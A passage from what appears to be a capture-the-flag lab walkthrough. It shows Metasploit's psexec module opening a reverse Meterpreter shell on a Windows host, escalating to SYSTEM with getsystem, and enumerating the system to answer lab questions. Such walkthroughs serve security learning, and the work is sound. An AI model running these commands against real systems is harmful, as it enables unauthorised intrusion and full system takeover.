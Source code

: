 ```
   LHOST     10.10.196.135    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.196.135:4444 
[*] 10.10.99.128:445 - Connecting to the server...
[*] 10.10.99.128:445 - Authenticating to 10.10.99.128:445 as user 'ballen'...
[*] 10.10.99.128:445 - Selecting PowerShell target
[*] 10.10.99.128:445 - Executing the payload...
[+] 10.10.99.128:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.10.99.128
[*] Meterpreter session 1 opened (10.10.196.135:4444 -> 10.10.99.128:54360) at 2021-09-26 12:30:45 +0100

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows

Answer : ACME-TEST

What is the target domain ?

The sysinfo command above give us the domain too !

Answer : FLASH

What is the name of the share likely created by the user ?

Background the actual meterpreter the search for a new mode for SMB share enumeration :

msf5 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.10.196.135:4444 -> 10.10.99.128:54360 (10.10.99.128)


msf5 exploit(windows/smb/psexec) > search scanner/share
[-] No results from search
msf5 exploit(windows/smb/psexec) > search scanner_share
```